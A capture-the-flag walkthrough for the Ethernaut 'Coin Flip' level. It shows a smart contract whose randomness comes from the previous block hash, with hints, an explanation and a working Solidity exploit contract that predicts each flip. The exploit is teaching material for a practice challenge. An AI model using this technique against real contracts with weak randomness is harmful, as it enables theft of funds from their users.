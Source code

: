 ```yaml
---
description: >-
  In Ethernaut's Coin Flip, we're introduced to the problem of randomness on a
  public, deterministic blockchain.
---
```


# 3 - Coin Flip

The goal of [this level](https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f) is to guess the correct outcome of the contract's "coin flip" 10 times in a row.

### Hints

<details>

<summary>Hint One</summary>

If the contract's `flip` function were truly random, this level would not be possible. How, exactly, does it determine the outcome of the coin flip? How could you use this same approach to improve your own guesses?

</details>

<details>

<summary>Hint Two</summary>

The outcome of each coin flip is a function of the hash of the last mined block. The hash is divided by a constant `FACTOR` and whether this quotient == 1 determines the result. You will need to perform this same calculation yourself prior to making each "guess". This code can be implemented in a smart contract of your own, that handles both calculating the correct guess and submitting it to the `CoinFlip` contract’s `flip` function.

</details>

### Full Walkthrough

The contract's `flip` function is responsible for simulating the outcome of the coin flip (a boolean) and checking it against the user's `_guess`. The issue with the way this feature has been implemented is that the outcome of the flip is purely a function of the hash of the last mined block, a public variable accessible to any user prior to them making their guess. Comments have been added to the contract snippet below for clarity.

```solidity
function flip(bool _guess) public returns (bool) {
  // This variable is publicly knowable prior to the function being called
  uint256 blockValue = uint256(blockhash(block.number.sub(1)));

  // The rest of the code below is incidental, the coin flip is purely a 
  // function of the (known) 'blockValue' variable above.

  if (lastHash == blockValue) {
    revert();
  }

  lastHash = blockValue;
  uint256 coinFlip = blockValue.div(FACTOR);
  bool side = coinFlip == 1 ? true : false;

  if (side == _guess) {
    consecutiveWins++;
    return true;
  } else {
    consecutiveWins = 0;
    return false;
  }
}
```

As we can determine the `blockValue` before calling the contract's `flip` function, we simply need to implement our own matching flip function to calculate our "guess" in advance of each transaction.

We'll write our own "proxy contract" in Solidity to handle calculating the outcome of the coin flip and then calling the `flip` function on the `CoinFlip` contract. Our contract will contain a `guess` function that will just need to be called ten times in a row. The approach below will always work as we will be executing both the calculation of our guess and the result of the `flip` function at once, meaning everything will be included in the same block so both contracts will have the same value of `block.number` (the current block height in which the transaction is being mined).

{% hint style="info" %}
**Global Variables and Global Functions**

We see both `block.number` and `blockHash` are accessible from within the smart contracts without being defined. This is because Solidity makes a number of useful variables and functions globally available. You can learn more in the Solidity [documentation](https://docs.soliditylang.org/en/v0.8.10/units-and-global-variables.html).
{% endhint %}

### Scripted Solution

```solidity
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipExploit {
    CoinFlip public coinFlipContract;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    /**
     * @dev Sets `coinFlipContract` to instance at `coinFlipContractAddress`.
     */
    constructor(address coinFlipContractAddress) {
        coinFlipContract = CoinFlip(coinFlipContractAddress);
    }

    /**
     * @dev Calls the CoinFlip contract's `flip` function with the correct guess.
     */
    function guess() public {
        uint256 previousBlockHash = uint256(blockhash(block.number - 1));
        bool side = (previousBlockHash / FACTOR) == 1 ? true : false;

        coinFlipContract.flip(side);
    }
}
```

### Key Takeaways

* Generating sufficiently random data is a challenge on a _**deterministic**_\*\* blockchain\*\* and is a problem best left to industry standard solutions like the Chainlink oracle's "Verifiable Random Function".
* Smart contracts on public blockchains are auditable by anyone. Any attempts to hide clever tricks in a contract's code are therefor ultimately futile.
* Solidity contains a number of useful globally available variables and functions we can use when writing our own contracts.
